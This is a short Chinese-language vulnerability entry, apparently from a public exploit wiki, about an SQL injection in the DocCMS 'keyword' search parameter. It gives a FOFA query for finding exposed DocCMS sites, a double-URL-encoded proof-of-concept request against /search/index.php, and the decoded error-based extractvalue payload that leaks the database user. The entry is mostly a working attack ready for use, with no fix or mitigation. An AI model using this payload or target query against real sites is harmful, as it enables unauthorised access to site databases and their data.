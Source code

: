 ```yaml
---
title: DocCMS keyword SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - DocCMS
---
```


# DocCMS keyword SQL注入漏洞

## 漏洞描述

DocCMS keyword参数存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

> [!NOTE]
>
> DocCMS

## FOFA

> [!NOTE]
>
> app="Doccms" 

## 漏洞复现

CMS官网

![image-20210702110657409](/img/20210924020312164797.png)

验证POC

```
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```

![image-20210702110838286](/img/20210924020314656670.png)

其中payload为下列语句的二次Url编码

```
' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```

